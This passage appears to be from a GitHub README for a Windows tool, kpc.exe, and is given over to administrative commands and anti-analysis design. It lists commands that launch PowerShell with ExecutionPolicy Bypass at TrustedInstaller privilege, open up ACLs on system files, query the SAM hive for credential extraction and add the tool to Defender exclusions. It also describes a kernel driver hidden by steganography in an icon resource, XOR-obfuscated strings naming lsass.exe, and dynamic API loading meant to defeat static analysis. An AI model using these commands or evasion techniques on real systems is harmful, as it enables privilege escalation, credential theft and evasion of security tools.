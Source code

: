 ### System Integration & Administrative Tasks
```bash
# Launch PowerShell with maximum system privileges
kpc.exe trusted powershell.exe -ExecutionPolicy Bypass

# Execute system file modifications bypassing ACLs
kpc.exe trusted icacls "C:\Windows\System32\drivers\etc\hosts" /grant Everyone:F

# Direct SAM/SECURITY registry access for credential extraction  
kpc.exe trusted reg query "HKLM\SAM\SAM\Domains\Account\Users"

# Install right-click context menu integration
kpc.exe install-context

# Add KPC to Windows Defender exclusions automatically
kpc.exe add-exclusion

# Run application with TrustedInstaller privileges and arguments
kpc.exe trusted "C:\Tools\forensic-tool.exe" --analyze --deep-scan
```

---

## 🔒 Security Architecture & Anti-Analysis

### Advanced Protection Mechanisms

#### Steganographic Resource Embedding
```
Driver Concealment Architecture:
┌─────────────────────────────────────────────┐
│         kpc.exe Resource Section            │
├─────────────────────────────────────────────┤
│ Bytes 0-9661:    Legitimate icon data       │
│ Bytes 9662-end:  Encrypted kvc.sys          │ 
│                  XOR key: [REDACTED]        │
└─────────────────────────────────────────────┘
```

The kernel driver is **hidden within the icon resource** using steganographic techniques, making static analysis significantly more difficult.

#### Runtime String Decryption  
**All sensitive strings are XOR-encrypted at compile time:**
- API function names (CreateFileW, OpenProcess)
- Process names (lsass.exe, csrss.exe)  
- Registry paths (SOFTWARE\Microsoft\Windows)
- Service names (TrustedInstaller)
- File paths (C:\Windows\System32)

#### Dynamic API Loading
```cpp
// Runtime API resolution to avoid static imports
bool InitDynamicAPIs() {
    g_advapi32 = LoadLibraryA(OBFAPI("advapi32.dll"));
    g_pCreateServiceW = (decltype(&CreateServiceW))
        GetProcAddress(g_advapi32, OBFAPI("CreateServiceW"));
    // ... additional APIs loaded dynamically
}
```
